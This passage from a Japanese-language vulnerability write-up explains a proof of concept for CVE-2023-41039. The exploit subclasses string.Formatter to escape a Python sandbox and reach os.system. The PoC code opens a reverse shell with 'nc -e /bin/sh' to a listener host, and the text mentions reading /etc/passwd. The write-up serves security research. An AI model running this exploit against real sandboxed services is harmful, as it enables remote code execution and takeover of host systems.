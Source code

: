 そこで、 `string.Formatter` クラスを継承し、クラス内のメソッドを定義することで引数（ `'cat /etc/passwd'` ）付きの関数呼び出しを実現する。
`string.Formatter` の定義を以下に抜粋:

```python
class Formatter:
    # ...
    # given a field_name, find the object it references.
    #  field_name:   the field being looked up, e.g. "0.name"
    #                 or "lookup[3]"
    #  used_args:    a set of which args have been used
    #  args, kwargs: as passed in to vformat
    def get_field(self, field_name, args, kwargs):
        first, rest = _string.formatter_field_name_split(field_name)
        obj = self.get_value(first, args, kwargs)

        # loop through the rest of the field_name, doing
        #  getattr or getitem as needed
        for is_attr, i in rest:
            if is_attr:
                obj = getattr(obj, i)
            else:
                obj = obj[i]

        return obj, first
```

`obj` が、 `string.Formatter().format("{0.Random.__init__.__globals__[_os].system}", random)` における `system` となる。
ということで、継承したクラスでその `obj` を引数付きで呼び出せば目的達成。この方針で書いたコードが次のPoCとなる。

#### PoCコード

`example/cve_2023_41039.py` の中身を記載する。コメントを読み、上述の原理と照らし合わせてほしい。
`os.system` の呼び出しで行っているRCEによるReverse-shellは、上述の CVE-2023-37271 のPoCコードと全く同じ考えなので、そちらも参照。

```python
def run():

    # `string` は、ホスト側の `policy_globals = {**safe_globals, **utility_builtins}`
    # により使えるようになっている`
    class MyFormatter(string.Formatter):
        def get_field(self, field_name, args, kwargs):
            # sandbox内のグローバルには `super` がないので回りくどい呼び出しをする
            obj, first = string.Formatter.get_field(self, field_name, args, kwargs)

            # `string.Formatter.format("{0.Random.__init__.__globals__[_os].system}", random)
            # とした場合、最後の `system` 関数のオブジェクトが `obj` に入っている

            # `obj == os.system` を仮定し、 system() で任意コード実行
            # ここではホストで待機しているreverse-shellに接続しに行く
            # ホスト側実行コマンド例
            #
            # ```bash
            # # Linux
            # nc -l -p 9999
            #
            # # MacOS
            # nc -nvl 9999
            # ```
            obj("nc -e /bin/sh host.docker.internal 9999")

            return obj, first

    # `random` は、ホスト側の `policy_globals = {**safe_globals, **utility_builtins}`
    # により使えるようになっている`
    MyFormatter().format("{0.Random.__init__.__globals__[_os].system}", random)
```
